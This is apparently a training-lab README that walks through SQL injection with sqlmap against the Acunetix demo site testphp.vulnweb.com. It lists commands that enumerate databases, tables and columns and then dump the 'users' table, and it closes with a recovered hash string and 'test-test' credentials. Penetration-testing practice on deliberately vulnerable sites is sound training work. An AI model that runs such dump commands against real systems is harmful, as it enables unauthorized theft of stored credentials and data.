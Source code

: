 # kypo-crp-demo-training-ubuntu

USE SQLMAP

cd to sqlmap-dev folder

use [Home of Acunetix Art (vulnweb.com)](http://testphp.vulnweb.com/)

python3 sqlmap.py -u "http://testphp.vulnweb.com/search.php?test=query"

python3 sqlmap.py -u "http://testphp.vulnweb.com/search.php?test=query" -dbs

python3 sqlmap.py -u "http://testphp.vulnweb.com/search.php?test=query" --tables -D acuart

python3 sqlmap.py -u "http://testphp.vulnweb.com/search.php?test=query" --columns -D acuart -T users

python3 sqlmap.py -u "http://testphp.vulnweb.com/search.php?test=query" --dump -D acuart -T users

0331514ec0dc346ead0b43ee816b022f (cart string)

test-test
